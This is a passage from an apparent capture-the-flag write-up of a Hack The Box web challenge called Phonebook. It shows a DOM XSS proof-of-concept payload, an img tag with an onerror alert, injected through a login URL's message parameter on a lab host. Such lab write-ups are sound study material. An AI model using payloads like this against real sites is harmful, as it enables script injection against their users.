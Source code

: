 ![homepage_source_code](/assets/htb/challenge/web/phonebook/img/homepage_source_code.png)

Then the **xss payload** would be `<img src='x' onerror='alert(1)'>`
and the url would be:
`http://206.189.121.131:30184/login?message=<img src='x' onerror='alert(1)'>`

Yeah it worked, it's a `DOM XSS` :)

![DOM_XSS](/assets/htb/challenge/web/phonebook/img/DOM_XSS.png)
